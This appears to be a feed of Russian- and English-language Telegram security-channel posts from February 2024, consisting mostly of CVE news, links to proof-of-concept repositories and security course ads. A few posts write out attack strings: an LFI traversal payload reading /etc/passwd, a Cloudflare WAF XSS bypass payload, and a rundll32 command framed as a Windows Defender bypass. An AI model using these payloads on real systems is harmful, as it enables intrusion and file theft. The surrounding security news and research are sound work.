


# defcon_news
`2024-02-19`

<blockquote>
CVE-2024-23724: Ghost CMS Stored XSS Leading to Owner Takeover
https://old.reddit.com/r/netsec/comments/1apxmfj/cve202423724_ghost_cms_stored_xss_leading_to/
</blockquote>

<table><tr><td><b>→</b><a href="https://old.reddit.com/r/netsec/comments/1apxmfj/cve202423724_ghost_cms_stored_xss_leading_to/">
https://old.reddit.com/r/netsec/comments/1apxmfj/cve202423724_ghost_cms_stored_xss_leading_to/
</a>
<blockquote>
Explore this post and more from the netsec community
</blockquote>
</td></tr></table>

---

# freedomf0x
`2024-02-19`

<blockquote>
&#35;CVE-2024-21413 | &#35;Microsoft &#35;Outlook Remote Code Execution Vulnerability &#35;PoC

https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability">
https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability
</a>
<blockquote>
Microsoft-Outlook-Remote-Code-Execution-Vulnerability - xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability
</blockquote>
</td></tr></table>

---

# cibsecurity
`2024-02-19`

* https://thehackernews.com/2024/02/russian-linked-hackers-breach-80.html

<blockquote>
🖋️ Russian-Linked Hackers Breach 80+ Organizations via Roundcube Flaws 🖋️

Threat actors operating with interests aligned to Belarus and Russia have been linked to a new cyber espionage campaign that likely exploited crosssite scripting XSS vulnerabilities in Roundcube webmail servers to target over 80 organizations. These entities are primarily located in Georgia, Poland, and Ukraine, according to Recorded Future, which attributed the intrusion set to a threat.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# elliot_cybersec
`2024-02-18`

* https://github.com/s0md3v/XSStrike
* https://dalfox.hahwul.com/
* https://github.com/rajeshmajumdar/BruteXSS

<blockquote>
👺 ТОП-3 инструмента для XSS | Привет, друг. На связи Эллиот.

В этом посте расскажу вам о некоторых тулсах по XSS, которые необходимо знать в 2023 году. Они предназначены для выявления и устранения уязвимостей XSS, в конечном итоге защищая веб-приложения от потенциальных атак.

1. XSStrike — это инструмент, который специализируется на обнаружении и использовании уязвимостей XSS в веб-приложениях. Он предлагает полный набор методов сканирования XSS и полезных нагрузок, что делает его ценным ресурсом для специалистов.
2. Dalfox — это инструмент, который специализируется на сканировании веб-приложений на предмет уязвимостей XSS (межсайтового скриптинга). Это предоставляет специалистам по безопасности и этичным хакерам быстрый и эффективный способ выявления и использования потенциально слабых мест XSS.
3. BruteXSS — это мощный инструмент перебора XSS (межсайтового скриптинга). BruteXSS является кроссплатформенным инструментом, который может запускаться в различных операционных системах.
- Такая гибкость делает его доступным для более широкого круга специалистов.

&#35;XSS &#35;Recon
</blockquote>

---

# proxy_bar
`2024-02-16`

* https://github.com/duy-31/CVE-2024-21413

<blockquote>
CVE-2024-21413 
Expect Script POC
*
Microsoft Outlook Remote Code Execution Vulnerability (through the preview panel) CVSS:3.1 9.8 / 8.5
*
Link
</blockquote>

---

# freedomf0x
`2024-02-16`

<blockquote>
https://aceresponder.com/blog/exploiting-empire-c2-framework &#35;RCE

https://github.com/ACE-Responder/Empire-C2-RCE-PoC
</blockquote>

---

# proxy_bar
`2024-02-14`

<blockquote>
Грязный BASH
однострочник для быстрого обнаружения XSS в файлах PHP
*
rg --no-heading &quot;echo.*\\\$_GET&quot; | grep &quot;\.php:&quot; | grep -v -e &quot;(\$_GET&quot; -e &quot;( \$_GET&quot; -e &quot;esc_&quot; -e &quot;admin_url&quot; -e &quot;(int)&quot; -e htmlentities
</blockquote>

---

# elliot_cybersec
`2024-02-14`

* https://tglink.io/ba19194d2501?erid=LjN8KSaDo

<blockquote>
🚀 Академия Codeby запускает новый поток курса WAPT: &quot;Тестирование WEB-приложений на проникновение&quot;

📚 На курсе WAPT изучаются методы сбора информации, активный фаззинг, эксплуатация уязвимостей, повышение привилегий и социальная инженерия.

📅 Старт: 1 марта

🌐 Кому полезен курс:
- Специалистам в сфере информационной безопасности
- Пентестерам с опытом и без
- Разработчикам веб-приложений
- Аудитории CTF-соревнований

👨‍💻 За 4 месяца вы:
- Научитесь анализировать защиту веб-сервисов от популярных видов атак и находить уязвимости в веб-приложениях
- Получите навыки в таких атаках как SQL-injection и CMD injection
- Освоите Cross Site Scripting, PHP injection, Server Side Template injection

🚀 Готовы взламывать и защищать веб-приложения? Присоединяйтесь к курсу от Codeby – одной из сильнейших команд по пентесту!

📌 Узнать подробнее о курсе
</blockquote>

---

# Social_engineering
`2024-02-14`

* https://tglink.io/3bf3ee59a3e7?erid=LjN8JykfT

<blockquote>
🔒 Стартует курс &quot;Введение в информационную безопасность&quot; от Академии Кодебай! 

Начало обучения: 4 марта

🔍 Кому полезен курс:
- участникам CTF, IT-специалистам
- web-разработчикам
- студентам направления &quot;Информационная безопасность&quot;

🕵️ За 4 месяца вы попробуете:
- Искать, исследовать и эксплуатировать следующие виды уязвимостей: SQL Injection, OS Command Injection, XSS, LFI, RFI, SSRF и Unsecure File Upload
- Решать CTF-задания
- Организовывать защиту от перебора паролей

💡 На курсе вы научитесь:
- Работе с инструментами Kali Linux
- Консольным командам ОС Windows и Linux, написанию скриптов
- Использованию базового инструментария пентестера: BurpSuite, Nmap, Gobuster, Wfuzz, Sqlmap, Wpscan, Fail2ban

🎓 После сдачи экзамена вы получите сертификат от Академии Кодебай

💻 Узнайте больше об информационной безопасности!
</blockquote>

---

# it_secur
`2024-02-14`

* https://tglink.io/0df6fbbf8c1c?erid=LjN8JyRBX

<blockquote>
🔒 Стартует курс &quot;Введение в информационную безопасность&quot; от Академии Кодебай! 

Начало обучения: 4 марта

🔍 Кому полезен курс:
- участникам CTF, IT-специалистам
- web-разработчикам
- студентам направления &quot;Информационная безопасность&quot;

🕵️ За 4 месяца вы попробуете:
- Искать, исследовать и эксплуатировать следующие виды уязвимостей: SQL Injection, OS Command Injection, XSS, LFI, RFI, SSRF и Unsecure File Upload
- Решать CTF-задания
- Организовывать защиту от перебора паролей

💡 На курсе вы научитесь:
- Работе с инструментами Kali Linux
- Консольным командам ОС Windows и Linux, написанию скриптов
- Использованию базового инструментария пентестера: BurpSuite, Nmap, Gobuster, Wfuzz, Sqlmap, Wpscan, Fail2ban

🎓 После сдачи экзамена вы получите сертификат от Академии Кодебай

💻 Узнайте больше об информационной безопасности!
</blockquote>

---

# cibsecurity
`2024-02-14`

* https://thehackernews.com/2024/02/darkme-malware-targets-traders-using.html

<blockquote>
🖋️ DarkMe Malware Targets Traders Using Microsoft SmartScreen Zero-Day Vulnerability 🖋️

A newly disclosed security flaw in the Microsoft Defender SmartScreen has been exploited as a zeroday by an advanced persistent threat actor called Water Hydra aka DarkCasino targeting financial market traders. Trend Micro, which began tracking the campaign in late December 2023, said it entails the exploitation of CVE202421412, a security bypass vulnerability related to Internet.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# defcon_news
`2024-02-14`

<blockquote>
DarkMe Malware Targets Traders Using Microsoft SmartScreen Zero-Day Vulnerability
https://thehackernews.com/2024/02/darkme-malware-targets-traders-using.html
</blockquote>

---

# cibsecurity
`2024-02-13`

* https://thehackernews.com/2024/02/alert-cisa-warns-of-active-roundcube.html

<blockquote>
🖋️ Alert: CISA Warns of Active 'Roundcube' Email Attacks - Patch Now 🖋️

The U.S. Cybersecurity and Infrastructure Security Agency CISA on Monday added a mediumseverity security flaw impacting Roundcube email software to its Known Exploited Vulnerabilities KEV catalog, based on evidence of active exploitation. The issue, tracked as CVE202343770 CVSS score 6.1, relates to a crosssite scripting XSS flaw that stems from the handling of.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# proxy_bar
`2024-02-12`

<blockquote>
Windows Defender Detection Mitigation Bypass Vulnerability
Win LPE
В 2022 году hyp3rlinx рассказывал как можно обойти windows defender передав дополнительный путь при ссылке на mshtml, дырку пофиксили. НО, добавив пару запятых в старый трюк - и опять bypass. 
*
то есть было и пофиксили:
C:\sec&gt;rundll32.exe javascript:&quot;\..\..\mshtml,RunHTMLApplication &quot;;alert(666)
магия запятой:
C:\sec&gt;rundll32.exe javascript:&quot;\..\..\mshtml,,RunHTMLApplication &quot;;alert(666)
собака старая, трюки новые.
CVE пока не имеет )

&#35;defender &#35;bypass
</blockquote>

---

# defcon_news
`2024-02-10`

<blockquote>
SqliSniper - Advanced Time-based Blind SQL Injection Fuzzer For HTTP Headers
http://www.kitploit.com/2024/02/sqlisniper-advanced-time-based-blind.html
</blockquote>

<table><tr><td><b>→</b><a href="https://www.kitploit.com/2024/02/sqlisniper-advanced-time-based-blind.html">
https://www.kitploit.com/2024/02/sqlisniper-advanced-time-based-blind.html
</a>
</td></tr></table>

---

# freedomf0x
`2024-02-10`

<blockquote>
&#35;CVE-2024-22024 : &#35;Ivanti Connect Secure 9.x, 22.x &amp; Ivanti Policy Secure 9.x, 22.x &amp; ZTA Gateways 22.6R1.3 'SAML Component' - Unauthenticated XML External Entity (XXE) 

&#35;POC N/A : https://github.com/0dteam/CVE-2024-22024

CVE-2023-46805 : Ivanti Connect Secure 9.x, 22.x &amp; Ivanti Policy Secure 9.x, 22.x 'Web Component' - Authentication Bypass

SCAN : https://github.com/Chocapikk/CVE-2023-46805

CVE-2024-21887 : Ivanti Connect Secure 9.x, 22.x &amp; Ivanti Policy Secure 9.x, 22.x 'Web Component' - (Authenticated Administrator) Arbitrary Command Execution

POC N/A : https://github.com/imhunterand/CVE-2024-21887

High Signal Detection and Exploitation of Ivanti's Pulse Connect Secure Auth Bypass &amp; &#35;RCE

Blog : https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/0dteam/CVE-2024-22024">
https://github.com/0dteam/CVE-2024-22024
</a>
<blockquote>
Check for CVE-2024-22024 vulnerability in Ivanti Connect Secure - GitHub - 0dteam/CVE-2024-22024: Check for CVE-2024-22024 vulnerability in Ivanti Connect Secure
</blockquote>
</td></tr></table>

---

# proxy_bar
`2024-02-09`

<blockquote>
LFI
*
Payload:  
&quot;.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/etc/passwd&quot;
</blockquote>

---

# cibsecurity
`2024-02-09`

* https://thehackernews.com/2024/02/fortinet-warns-of-critical-fortios-ssl.html

<blockquote>
🖋️ Fortinet Warns of Critical FortiOS SSL VPN Vulnerability Under Active Exploitation 🖋️

Fortinet has disclosed a new critical security flaw in FortiOS SSL VPN that it said is likely being exploited in the wild. The vulnerability, CVE202421762 CVSS score 9.6, allows for the execution of arbitrary code and commands. &quot;A outofbounds write vulnerability CWE787 in FortiOS may allow a remote unauthenticated attacker to execute arbitrary code or command via specially.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# cibsecurity
`2024-02-09`

* https://thehackernews.com/2024/02/warning-new-ivanti-auth-bypass-flaw.html

<blockquote>
🖋️ Warning: New Ivanti Auth Bypass Flaw Affects Connect Secure and ZTA Gateways 🖋️

Ivanti has alerted customers of yet another highseverity security flaw in its Connect Secure, Policy Secure, and ZTA gateway devices that could allow attackers to bypass authentication. The issue, tracked as CVE202422024, is rated 8.3 out of 10 on the CVSS scoring system. &quot;An XML external entity or XXE vulnerability in the SAML component of Ivanti Connect Secure 9.x, 22.x, Ivanti.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# defcon_news
`2024-02-08`

<blockquote>
Preventing XSS Injection Attacks With A Content Security Policy
https://latesthackingnews.com/2024/02/08/preventing-xss-injection-attacks-with-a-content-security-policy/
</blockquote>

<table><tr><td><b>→</b><a href="https://latesthackingnews.com/2024/02/08/preventing-xss-injection-attacks-with-a-content-security-policy/">
https://latesthackingnews.com/2024/02/08/preventing-xss-injection-attacks-with-a-content-security-policy/
</a>
<blockquote>
Cross-site scripting (XSS) attacks are an old favorite of cybercriminals, whereby they take advantage of code vulnerabilities in websites and applications that enable users to add their own content. Although these attacks have been on the
</blockquote>
</td></tr></table>

---

# it_secur
`2024-02-08`

<blockquote>
👨‍💻 Как хакнуть chess.com детским эксплойтом.

•  История обнаружения XSS-уязвимости на крупнейшем шахматном сайте интернета со 100 миллионами участников – Chess.com

➡️ Оригинал: https://skii.dev/rook-to-xss/

➡️ Перевод: https://habr.com/post/790330/

&#35;ИБ &#35;web
</blockquote>

---

# sysadm_in_channel
`2024-02-08`

<blockquote>
/ ResumeLooters gang infects websites with XSS scripts and SQL injections to vacuum up job seekers' personal data and CVs

https://www.group-ib.com/blog/resumelooters/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.group-ib.com/blog/resumelooters/?utm_source=twitter&utm_campaign=&utm_medium=social">
https://www.group-ib.com/blog/resumelooters/?utm_source=twitter&utm_campaign=&utm_medium=social
</a>
<blockquote>
ResumeLooters gang infects websites with XSS scripts and SQL injections to vacuum up job seekers' personal data and CVs.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2024-02-07`

* https://www.darkreading.com/vulnerabilities-threats/rce-vulnerability-in-shim-bootloader-impacts-all-linux-distros

<blockquote>
🕵️‍♂️ Linux Distros Hit By RCE Vulnerability in Shim Bootloader 🕵️‍♂️

However, not everyone agrees with the NVD's assessment of CVE202340547 being a nearmaximum severity bug.

📖 Read more.

🔗 Via &quot;Dark Reading&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/vulnerabilities-threats/rce-vulnerability-in-shim-bootloader-impacts-all-linux-distros">
https://www.darkreading.com/vulnerabilities-threats/rce-vulnerability-in-shim-bootloader-impacts-all-linux-distros
</a>
<blockquote>
However, not everyone agrees with the NVD's assessment of CVE-2023-40547 being a near-maximum severity bug.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2024-02-06`

* https://www.darkreading.com/remote-workforce/-resumelooters-attackers-steal-millions-career-records

<blockquote>
🕵️‍♂️ 'ResumeLooters' Attackers Steal Millions of Career Records 🕵️‍♂️

The cyberattackers used SQL injection and XSS to target 65 retail companies and job recruiters, stealing databases with unique emails and other sensitive records.

📖 Read more.

🔗 Via &quot;Dark Reading&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/remote-workforce/-resumelooters-attackers-steal-millions-career-records">
https://www.darkreading.com/remote-workforce/-resumelooters-attackers-steal-millions-career-records
</a>
<blockquote>
The cyberattackers used SQL injection and XSS to target 65 retail companies and job recruiters, stealing databases with unique emails and other sensitive records.
</blockquote>
</td></tr></table>

---

# freedomf0x
`2024-02-06`

<blockquote>
Disable Windows &#35;Defender (+ &#35;UAC &#35;Bypass, + Upgrade to SYSTEM)

https://github.com/EvilGreys/Disable-Windows-Defender-
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/EvilGreys/Disable-Windows-Defender-">
https://github.com/EvilGreys/Disable-Windows-Defender-
</a>
<blockquote>
Disable Windows Defender (+ UAC Bypass, + Upgrade to SYSTEM) - GitHub - EvilGreys/Disable-Windows-Defender-: Disable Windows Defender (+ UAC Bypass, + Upgrade to SYSTEM)
</blockquote>
</td></tr></table>

---

# cibsecurity
`2024-02-06`

* https://thehackernews.com/2024/02/recently-disclosed-ssrf-flaw-in-ivanti.html

<blockquote>
🖋️ Recent SSRF Flaw in Ivanti VPN Products Undergoes Mass Exploitation 🖋️

A recently disclosed serverside request forgery SSRF vulnerability impacting Ivanti Connect Secure and Policy Secure products has come under mass exploitation. The Shadowserver Foundation said it observed exploitation attempts originating from more than 170 unique IP addresses that aim to establish a reverse shell, among others. The attacks exploit CVE202421893 CVSS.

📖 Read more.

🔗 Via &quot;The Hacker News&quot;

----------
👁️ Seen on @cibsecurity
</blockquote>

---

# defcon_news
`2024-02-06`

<blockquote>
Recent SSRF Flaw in Ivanti VPN Products Undergoes Mass Exploitation
https://thehackernews.com/2024/02/recently-disclosed-ssrf-flaw-in-ivanti.html
</blockquote>

---

# phd_soc
`2024-02-04`

<blockquote>
&#35;рубрика тупых вопросов от молодых специалистов

Парни, а если у нас в первой случае на хосте реверс шелл в картинке, просто подойдет CWE-434: Unrestricted Upload of File with Dangerous Type.
А во втором blind XML XXE с загрузкой картинки svg и с эксфильтрацией через через обращение к нашему серверу к файлам dtd, вроде  CWE-611: Improper Restriction of XML External Entity Reference

Классифицируем первое как CWE-434, а второе как CWE-611 ИЛИ оба загоняем как CWE-434, но дальше уточняем что и как?
</blockquote>

---

# freedomf0x
`2024-02-03`

<blockquote>
&#35;CVE-2024-21893 : &#35;Ivanti Connect Secure 9.x , 22.x &amp; Ivanti Policy Secure 9.x , 22.x  &amp; Ivanti Neurons for ZTA 'SAML component' - Server-side request forgery (&#35;SSRF)

&#35;POC : https://github.com/h4x0r-dz/CVE-2024-21893.py

&#35;NIST : https://nvd.nist.gov/vuln/detail/CVE-2024-21893
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/h4x0r-dz/CVE-2024-21893.py">
https://github.com/h4x0r-dz/CVE-2024-21893.py
</a>
<blockquote>
CVE-2024-21893: SSRF Vulnerability in Ivanti Connect Secure - h4x0r-dz/CVE-2024-21893.py
</blockquote>
</td></tr></table>

---

# phd_soc
`2024-02-02`

<blockquote>
без контекста такое себе, потыкать можно тут https://www.cvedetails.com/google-search-results.php?q&#61;Lfi&#35;gsc.tab&#61;0&amp;gsc.q&#61;Lfi&amp;gsc.page&#61;1
</blockquote>

<table><tr><td><b>→</b><a href="https://www.cvedetails.com/google-search-results.php?q=Lfi">
https://www.cvedetails.com/google-search-results.php?q=Lfi
</a>
<blockquote>
CVEdetails.com is a free CVE security vulnerability database/information source. You can view CVE vulnerability details, exploits, references, metasploit modules, full list of vulnerable products and cvss score reports and vulnerability trends over time
</blockquote>
</td></tr></table>

---

# phd_soc
`2024-02-02`

<blockquote>
Помогите найти номер cwe😁 вроде lfi, а номер какой прикрутить туда хз
Суть: обращаемся к api через json и через параметр url читаем внутренние файлы
</blockquote>

---

# defcon_news
`2024-02-01`

<blockquote>
Opera zero Day vulnerability for cross platform execution &quot;MyFlaw&quot;
https://old.reddit.com/r/netsec/comments/1aghlyk/opera_zero_day_vulnerability_for_cross_platform/
</blockquote>

<table><tr><td><b>→</b><a href="https://old.reddit.com/r/netsec/comments/1aghlyk/opera_zero_day_vulnerability_for_cross_platform/">
https://old.reddit.com/r/netsec/comments/1aghlyk/opera_zero_day_vulnerability_for_cross_platform/
</a>
<blockquote>
Explore this post and more from the netsec community
</blockquote>
</td></tr></table>

---

# Social_engineering
`2024-02-01`

* https://portswigger.net/burp
* https://github.com/Ignitetechnologies/Mindmap/blob/main/Burp%20Suite/Burp%20Suite%20UHD.png
* https://www.hackingarticles.in/burp-suite-for-pentester-web-scanner-crawler/
* https://www.hackingarticles.in/burp-suite-for-pentester-fuzzing-with-intruder-part-3/
* https://www.hackingarticles.in/burpsuite-for-pentester-fuzzing-with-intruder-part-2/
* https://www.hackingarticles.in/burp-suite-for-pentester-fuzzing-with-intruder-part-1//
* https://www.hackingarticles.in/burp-suite-for-pentester-xss-validator/
* https://www.hackingarticles.in/burp-suite-for-pentester-configuring-proxy/
* https://www.hackingarticles.in/burp-suite-for-pentester-burp-collaborator/
* https://www.hackingarticles.in/burp-suite-for-pentester-hackbar/
* https://www.hackingarticles.in/burp-suite-for-pentester-burp-sequencer/
* https://www.hackingarticles.in/burp-suite-for-pentester-turbo-intruder/
* https://www.hackingarticles.in/engagement-tools-tutorial-burp-suite/
* https://www.hackingarticles.in/payload-processing-rule-burp-suite-part-2/
* https://www.hackingarticles.in/payload-processing-rule-burp-suite-part-1/
* https://www.hackingarticles.in/beginners-guide-burpsuite-payloads-part-2/
* https://www.hackingarticles.in/beginners-guide-burpsuite-payloads-part-1/
* https://www.hackingarticles.in/burpsuite-encoder-decoder-tutorial/
* https://www.hackingarticles.in/burp-suite-for-pentester-active-scan/
* https://www.hackingarticles.in/burp-suite-for-pentester-software-vulnerability-scanner/
* https://www.hackingarticles.in/burp-suite-for-pentester-burps-project-management/
* https://www.hackingarticles.in/burp-suite-for-pentester-repeater/
* https://www.hackingarticles.in/burpsuite-for-pentester-logger/
* https://www.hackingarticles.in/burpsuite-for-pentester-autorize/
* https://github.com/snoopysecurity/awesome-burp-extensions#scanners
* https://github.com/snoopysecurity/awesome-burp-extensions#custom-features
* https://github.com/snoopysecurity/awesome-burp-extensions#beautifiers-and-decoders
* https://github.com/snoopysecurity/awesome-burp-extensions#cloud-security
* https://github.com/snoopysecurity/awesome-burp-extensions#scripting
* https://github.com/snoopysecurity/awesome-burp-extensions#oauth-and-sso
* https://github.com/snoopysecurity/awesome-burp-extensions#information-gathering
* https://github.com/snoopysecurity/awesome-burp-extensions#vulnerability-specific-extensions
* https://github.com/snoopysecurity/awesome-burp-extensions#web-application-firewall-evasion
* https://github.com/snoopysecurity/awesome-burp-extensions#logging-and-notes
* https://github.com/snoopysecurity/awesome-burp-extensions#payload-generators-and-fuzzers
* https://github.com/snoopysecurity/awesome-burp-extensions#cryptography
* https://github.com/snoopysecurity/awesome-burp-extensions#tool-integration
* https://github.com/snoopysecurity/awesome-burp-extensions#misc
* https://github.com/snoopysecurity/awesome-burp-extensions#burp-extension-training-resources
* https://github.com/Ignitetechnologies/Mindmap/blob/main/Burp%20Suite/Burp%20Suite%20UHD.png
* https://t.me/Social_engineering
* https://t.me/+owNymgMzqsg4ZDEy
* https://t.me/SE_VirusTotal_bot

<blockquote>
🔧 Прокачай свой Burp.

•  Поиск веб-уязвимостей и Burp Suite — это практически синонимы. Burp Suite заслуженно является одним из популярнейших инструментов пентестеров по всему миру благодаря гибким возможностям, способам комбинировать ручные и автоматизированные методы анализа при проведении тестирования безопасности веб-приложений.

•  В этом посте собраны все необходимые плагины и полезный материал для изучения Burp. Добавляйте в избранное и приступайте к изучению:

-  Burp Suite for Pentester: Web Scanner &amp; Crawler;
-  Burp Suite for Pentester – Fuzzing with Intruder (Part3);
-  Burp Suite for Pentester – Fuzzing with Intruder (Part2);
-  Burp Suite for Pentester – Fuzzing with Intruder (Part1);
-  Burp Suite for Pentester – XSS Validator;
-  Burp Suite for Pentester – Configuring Proxy;
-  Burp Suite for Pentester: Burp Collaborator;
-  Burp Suite For Pentester: HackBar;
-  Burp Suite for Pentester: Burp Sequencer;
-  Burp Suite for Pentester: Turbo Intruder;
-  Engagement Tools Tutorial in Burp suite;
-  Payload Processing Rule in Burp suite (Part2);
-  Payload Processing Rule in Burp suite (Part1);
-  Beginners Guide to Burpsuite Payloads (Part2);
-  Beginners Guide to Burpsuite Payloads (Part1);
-  Burpsuite Encoder &amp; Decoder Tutorial;
-  Burp Suite for Pentester: Active Scan++;
-  Burp Suite for Pentester: Software Vulnerability Scanner;
-  Burp Suite for Pentester: Burp’s Project Management;
-  Burp Suite for Pentester: Repeater;
-  Burpsuite for Pentester: Logger++
-  Burpsuite for Pentester: Autorize.

•  Плагины:

-  Scanners;
-  Custom Features;
-  Beautifiers and Decoders;
-  Cloud Security;
-  Scripting;
-  OAuth and SSO;
-  Information Gathering;
-  Vulnerability Specific Extensions;
-  Web Application Firewall Evasion;
-  Logging and Notes;
-  Payload Generators and Fuzzers;
-  Cryptography;
-  Tool Integration;
-  Misc;
-  Burp Extension Training Resources.

•  В дополнение: объемная Mindmap.

S.E. ▪️ infosec.work ▪️ VT
</blockquote>

---

# proxy_bar
`2024-02-01`

<blockquote>
bypass XSS Cloudflare WAF

Encoded Payload 
&amp;&#35;34;&amp;gt;&amp;lt;track/onerror&#61;&amp;&#35;x27;confirm\%601\%60&amp;&#35;x27;&amp;gt;

Clean Payload 
&quot;&gt;&lt;track/onerror&#61;'confirm`1`'&gt;

&#35;CF &#35;bypass
</blockquote>

---

